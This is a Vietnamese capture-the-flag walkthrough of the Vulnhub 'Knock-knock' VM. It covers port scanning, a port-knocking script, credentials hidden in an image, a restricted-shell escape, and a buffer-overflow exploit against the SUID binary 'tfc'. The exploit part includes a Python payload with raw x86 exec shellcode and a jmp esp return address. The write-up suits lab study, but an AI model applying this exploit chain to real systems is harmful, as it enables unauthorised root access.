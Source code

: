 # Knock - knock Vulnhub Walkthrough
## Bước 1: Dò quét
Tìm Ip của VM knock knock
netdiscover -i eth0 -r 192.168.18.0/24
![image](https://hackmd.io/_uploads/S19I4xy8a.png)
![image](https://hackmd.io/_uploads/rywwNlkUT.png)


knock knock có IP là 192.168.18.143
Dùng nmap scan version và OS 
nmap -sT -sV -O 192.168.18.143
![image](https://hackmd.io/_uploads/HkS9Vl1U6.png)

nmap bị chặn scan version và OS
scan port
	nmap 192.168.18.143 -p-
![image](https://hackmd.io/_uploads/SyV6Vg186.png)

phát hiện port 1337 đang mở
Thử telnet vào port đó 
	telnet 192.168.18.143 1337
![image](https://hackmd.io/_uploads/BkkbBlyIp.png)

Nhận được 3 giá trị có vẻ như là các port 
Port Knocking là một kỹ thuật để kiểm soát quyền truy cập vào một cổng bằng cách chỉ cho phép người dùng hợp pháp truy cập vào dịch vụ đang chạy trên máy chủ. Nó hoạt động theo cách mà khi thực hiện đúng trình tự kết nối, tường lửa sẽ mở cổng đã bị đóng.

Dùng script để tự động connect đến các port này
script.py
```python=
#!/usr/bin/python 
import socket
import itertools
import sys
destination = "192.168.18.143"

def clean_up_ports (raw_string):
	if len(raw_string) <= 0:
		return None
	# Remove the first [
	raw_string = raw_string.replace('[','')
	# Remove the second ]
	raw_string = raw_string.replace(']','')
	#split by commas
	first_list = raw_string.split(',')
	# start e empty return list
	ports = []
	for port in first_list:
	# strip the whitespace around the string
	# and cast to a integer
		ports.append(int (port.strip()))
	return ports
def main():
	print "[+] Getting sequence"
	try:
		sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		sock.connect((destination, 1337))
	except Exception as e:
		print "[+] Unable to connect to %s on port 1337. %s" % (destination, e) 
		sys.exit(1)
	# receive the list 
	raw_list = sock.recv(20)
	# get the ports in a actual python list
	ports = clean_up_ports (raw_list)
	print "[+] Sequence is %s" % ports
	print "[+] Knocking on the door using all the possible combinations...\n"
	# Lets knock all of the possible combinations of the ports list
	for port_list in itertools.permutations (ports):
		print "[+] Knocking with sequence: %s" % (port_list,) 
	for port in port_list:
		print "[+] Knocking on port %s:%s" % (destination, port) 
		sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
		sock.settimeout(0.1)
		sock.connect_ex ((destination, port)) 
		sock.close()
	print "[+] Finished sequence knock\n"
if __name__  =='__main__':
	print "[+] Knock knock opener"
	main()
	print "[+] Done"
```



![image](https://hackmd.io/_uploads/BkrEBe1UT.png)

Bây giờ tiến hành scan lại 
 nmap -p-  192.168.18.143

![image](https://hackmd.io/_uploads/SJMIrgy8a.png)

Truy cập trên trình duyệt 
![image](https://hackmd.io/_uploads/B1_DBeJLp.png)

Xem mã nguồn thấy không có gì đặc biệt chỉ có ảnh knocknock.jpg
![image](https://hackmd.io/_uploads/SkrFSxy8a.png)

Dùng wfuzz tìm các file bị ẩn nhưng không có gì đặc biệt
wfuzz -c -z file,/usr/share/wordlists/rockyou.txt --hc 404 http://192.168.18.143/FUZZ

Tải ảnh bên trên về máy
wget http://192.168.18.143/knockknock.jpg

Dùng strings thấy một thông tin đăng nhập có vẻ được mã hóa 
![image](https://hackmd.io/_uploads/SyHqHeJIp.png)

Đây là mã caesar với ROT 13 
Decode bằng Cyberchef 
![image](https://hackmd.io/_uploads/Syvsre1Ua.png)

Thu được:
nosaJ
fnk2Pj9Bj
Nhìn có vẻ hơi ngược khi đảo ngược lại 
Jason
jB9jP2knf
Đây có lẽ là tài khoản SSH của user Jason
username: Jason
password: jB9jP2knf

## Bước 2: Khai thác Buffer Overflow 
![image](https://hackmd.io/_uploads/H16CrlJ86.png)

Login SSH thành công.

Tìm thấy chương trình “tfc” có quyền SUID
![image](https://hackmd.io/_uploads/rkAyLgy8a.png)

Đây là chương trình mã hóa tập tin, đối số thứ nhất là tệp đầu vào (văn bản thuần túy) và đối số thứ hai là tệp đầu ra (văn bản mật mã), cả đầu vào và đầu ra đều phải có đuôi .tfc.
Do shell hạn chế nên cần gọi shell từ python để bypass
![image](https://hackmd.io/_uploads/HkQzLxyL6.png)

python -c "import pty; pty.spawn('/bin/bash')"
![image](https://hackmd.io/_uploads/HkomIxJUT.png)

Encrypt thử file in.tfc
![image](https://hackmd.io/_uploads/SkwOUekIT.png)

Có thể thấy khi đảo ngược thứ tự file thì sẽ giải mã được 
Bây giờ chúng ta hãy thử một file lớn để xem nó có lỗ hổng Tràn bộ đệm hay không.
![image](https://hackmd.io/_uploads/SyFYIlkLa.png)

Có tồn tại Buffer overflow
Dùng tool [checksec.sh](https://www.trapkit.de/tools/checksec/) để kiểm tra 
![image](https://hackmd.io/_uploads/HJThLe18a.png)


không có bất cứ sự bảo vệ nào 
Do gdb chưa được cài đặt trên máy mục tiêu nên ta phải tải chương trình tfc xuống Kali của mình để phân tích thêm.
scp jason@192.168.18.143:tfc /
Hoặc gửi từ máy mục tiêu scp tfc kali@192.168.18.145:tfc

![image](https://hackmd.io/_uploads/HJyR8eJIp.png)



Dùng gdb phân tích
![image](https://hackmd.io/_uploads/B1a0Ue18T.png)

Tại sao ở đây là 0x0675c916 mà không phải  là 0x41414141? 
Tiếp theo, cần tìm đâu là độ lệch để chỉ cần thay đổi EIP. Sau khi thử một số độ dài khác nhau và kiểm tra giá trị của địa chỉ trả lại bằng gdb. Cuối cùng đã tìm thấy phần bù để ghi đè lên địa chỉ trả về (4124 byte).

Do 4 'A' luôn bắt đầu bằng cùng một byte 'def0 5bab' trong tệp được mã hóa, Vì vậy, 'def0 5bab' có thể được sử dụng như một mẫu để xác định vị trí dữ liệu được mã hóa trong tệp core.
![image](https://hackmd.io/_uploads/HkWWwlyL6.png)
![image](https://hackmd.io/_uploads/rkmMPg186.png)


Tiếp theo, sử dụng msfelfscan để lấy địa chỉ jmp esp.
msfelfscan -j esp /root/tfc
![image](https://hackmd.io/_uploads/rJImDxJLp.png)


Dùng linux / x86 / exec để tạo shellcode
![image](https://hackmd.io/_uploads/BJ4rDlJ8T.png)

Tạo file payload.py
```python=
#/usr/bin/python

shellcode = "\xdb\xc6\xd9\x74\x24\xf4\x5a\xb8\x7e\xda\xf3\x36\x31\xc9\xb1\x0b\x83\xea\xfc\x31\x42\x16\x03\x42\x16\xe2\x8b\xb0\xf8\x6e\xea\x17\x99\xe6\x21\xfb\xec\x10\x51\xd4\x9d\xb6\xa1\x42\x4d\x25\xc8\xfc\x18\x4a\x58\xe9\x13\x8d\x5c\xe9\x0c\xef\x35\x87\x7d\x9c\xad\x57\xd5\x31\xa4\xb9\x14\x35"

content = 'A' * 4124
content += "\x93\x8e\x04\x08"               # 0x08048e93 jmp esp
content += "\x90" * 20                       # padding 20 NOPs to protect shellcode
content += shellcode
content += 'C' * (5000 - 4124 - 4 -20 -70)  # padding with 'C'

print content
```




copy core ra file exp.tfc bỏ qua 239056byte (từ 3a5d0 hex)
dd if=core of=exp.tfc skip=239056 count=5000 bs=1
![image](https://hackmd.io/_uploads/HJnOPxk86.png)

Chạy thử trên máy kali đã lên đc root 
![image](https://hackmd.io/_uploads/rkstPg1LT.png)

Bây giờ tải exp.tfc lên máy mục tiêu và khai thác 

![image](https://hackmd.io/_uploads/SyIiwl18T.png)

Lấy được flag
![image](https://hackmd.io/_uploads/r1P2wgJLa.png)



